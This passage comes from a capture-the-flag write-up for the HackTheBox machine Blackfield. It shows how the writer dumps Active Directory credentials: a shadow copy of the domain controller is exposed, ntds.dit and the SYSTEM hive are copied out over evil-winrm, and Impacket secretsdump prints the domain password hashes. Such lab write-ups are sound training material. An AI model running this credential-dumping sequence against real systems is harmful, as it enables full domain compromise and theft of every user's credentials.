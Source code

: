 ```
                - Attributes:  No_Auto_Release Persistent No_Writers Differential

Number of shadow copies listed: 1
-> expose %cyfun% z:
-> %cyfun% = {eef6f0be-3c60-4e69-985d-3bc400a24ff1}
The shadow copy was successfully exposed as z:\.
-> exec "cmd.exe" /c copy z:\windows\ntds\ntds.dit c:\Users\svc_backup\Videos\ntds.dit

The script file name is not valid.

EXEC <file.cmd>
        Execute a script file on the local machine.
        This command is used to duplicate or restore data as part of
        a backup or restore sequence.
```

As I got issues with the `exec` command I manually copied the file afterward:

```
*Evil-WinRM* PS C:\Users\svc_backup\Videos> cp x:\windows\ntds\ntds.dit .
```

Then we can also dump the SYSTEM hive:

```
*Evil-WinRM* PS C:\Users\svc_backup\Videos> reg save hklm\system system.hive
```

Again, we can use [evil-winrm][evil-winrm] native download feature.

```
*Evil-WinRM* PS C:\Users\svc_backup\Videos> download ntds.dit /home/cyfun/CTF/HackTheBox/machines/Blackfield/ntds.dit
Info: Downloading C:\Users\svc_backup\Videos\ntds.dit to /home/cyfun/CTF/HackTheBox/machines/Blackfield/ntds.dit

Info: Download successful!

```

Finally we can use `secretsdump` from Impacket to extract the hashes.

```
$ secretsdump.py -ntds ntds.dit -system system.hive LOCAL
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[*] Target system bootKey: 0x73d83e56de8961ca9f243e1a49638393
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 35640a3fd5111b93cc50e3b4e255ff8c
[*] Reading and decrypting hashes from ntds.dit
Administrator:500:aad3b435b51404eeaad3b435b51404ee:184fb5e5178480be64824d4cd53b99ee:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DC01$:1000:aad3b435b51404eeaad3b435b51404ee:65557f7ad03ac340a7eb12b9462f80d6:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:d3c02561bba6ee4ad6cfd024ec8fda5d:::
audit2020:1103:aad3b435b51404eeaad3b435b51404ee:c95ac94a048e7c29ac4b4320d7c9d3b5:::
support:1104:aad3b435b51404eeaad3b435b51404ee:cead107bf11ebc28b3e6e90cde6de212:::
BLACKFIELD.local\BLACKFIELD764430:1105:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD538365:1106:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD189208:1107:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD404458:1108:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD706381:1109:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
...
```